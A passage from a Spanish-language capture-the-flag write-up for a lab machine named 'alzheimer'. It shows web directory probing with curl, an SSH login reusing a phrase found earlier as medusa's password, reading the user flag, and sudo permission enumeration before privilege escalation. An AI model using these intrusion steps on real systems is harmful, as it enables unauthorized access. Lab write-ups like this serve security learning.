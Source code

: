 ~~~~bash
❯ curl -L $ip/secret
Maybe my password is in this secret folder?
                                                                                                                                                                                         
❯ curl -L $ip/secret/home
Im trying a lot. Im sure that i will recover my pass!
-medusa
~~~~

Aquí nos quedamos sin más por donde tirar, sin embargo, parece que tenemos un usuario, *medusa*, y si recordamos un poco atrás, en el fichero oculto del FTP había una frase un tanto "curiosa", *Ihavebeenalwayshere!!!*

Vamos a probar a conectarnos con estos datos por SSH.


### SSH

~~~
❯ ssh medusa@$ip
The authenticity of host '192.168.1.147 (192.168.1.147)' can't be established.
ED25519 key fingerprint is SHA256:O2S8HAtlJxSTJJgIQUiIzsbSKX/qj9Thyn38JM6wsBY.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '192.168.1.147' (ED25519) to the list of known hosts.
medusa@192.168.1.147's password: 
Linux alzheimer 4.19.0-9-amd64 #1 SMP Debian 4.19.118-2+deb10u1 (2020-06-07) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Sat Oct  3 06:00:36 2020 from 192.168.1.58
medusa@alzheimer:~$ ls
user.txt
medusa@alzheimer:~$ cat user.txt
~~~~

Pues ya tenemos la flag de user, así que toca ir a por la de root.


## Escalada de privilegios

Como hacemos siempre, vamos a mirar la lista de permisos que tenemos para usar privilegios de otro usuario:

~~~bash
medusa@alzheimer:~$ sudo -l
Matching Defaults entries for medusa on alzheimer:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User medusa may run the following commands on alzheimer:
    (ALL) NOPASSWD: /bin/id
~~~
